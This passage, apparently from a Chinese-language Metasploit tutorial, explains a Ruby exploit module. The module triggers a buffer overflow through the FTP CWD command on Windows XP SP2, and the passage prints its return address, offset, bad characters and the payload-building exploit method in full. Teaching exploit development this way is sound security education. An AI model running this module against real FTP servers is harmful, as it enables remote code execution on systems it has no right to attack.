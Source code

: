 ```
     },
  'Payload' =>
    {
      'Space' => 1000,
      'BadChars' => "\x00\xff\x0a\x0d\x20\x40",
    },
  'Platform' => 'win',
  'Targets' =>
  [
  [ 'Windows XP SP2 English',
    {
  'Ret' => 0x71ab9372,
  'Offset' => 2008
    }
  ],
  ],
  'DisclosureDate' => 'May 9 2016',
  'DefaultTarget' => 0))
  register_options(
  [
Opt::RPORT(21),
OptString.new('FTPPASS', [true, 'FTP Password', 'anonymous'])
],self.class)
End

```

我们首先包括所有必需的库和来自`/lib/msf/core/exploit`目录的`ftp.rb`库。接下来，我们在`initialize`部分分配所有必要的信息。收集利用漏洞的要素，我们分配`Ret`，返回地址和偏移量为`2008`。我们还将`FTPPASS`选项的值声明为`anonymous`。让我们看一下代码的下一部分，如下所示：

```
def exploit
  c = connect_login
  return unless c
    sploit = rand_text_alpha(target['Offset'])
    sploit << [target.ret].pack('V')
    sploit << make_nops(10)
    sploit << payload.encoded
    send_cmd( ["CWD " + sploit, false] )
    disconnect
  end
end

```

`connect_login`方法将连接到目标并尝试使用我们提供的凭据登录到软件。但是等等！我们什么时候提供凭证的？模块的`FTPUSER`和`FTPPASS`选项通过包含`FTP`库自动启用。`FTPUSER`的默认值为`anonymous`。但是，对于`FTPPASS`，我们已经在`register_options`中提供了`anonymous`的值。

接下来，我们使用`rand_text_alpha`使用目标字段的偏移值生成`2008`的`junk`，并将其存储在 sploit 变量中。我们还使用`sploit`变量中的 pack（`V`）函数以小端格式存储目标字段中的`Ret`值。使用`make_nop`函数连接 NOP，然后将外壳代码连接到`sploit`变量，我们的输入数据就可以提供了。

接下来，我们使用`FTP`库中的`send_cmd`函数，将`sploit`变量中的数据发送到`CWD`命令中的目标。那么，Metasploit 有何不同？让我们看看以下几点：

*   我们不需要创建垃圾数据，因为`rand_text_aplha`函数为我们创建了垃圾数据。
*   我们不需要以 little endian 格式提供`Ret`地址，因为 pack（`V`函数帮助我们转换它。
*   我们不需要像`make_nops`为我们做的那样手动生成 NOP。
*   我们不需要提供任何硬编码的有效负载，因为我们可以在运行时决定和更改有效负载。有效载荷的切换机制通过消除外壳代码的手动更改来节省时间。
*   我们只是利用`FTP`库来创建和连接套接字。
*   最重要的是，我们不需要使用手动命令进行连接和登录，因为 Metasploit 使用一种方法为我们完成了连接和登录，即`connect_login`。
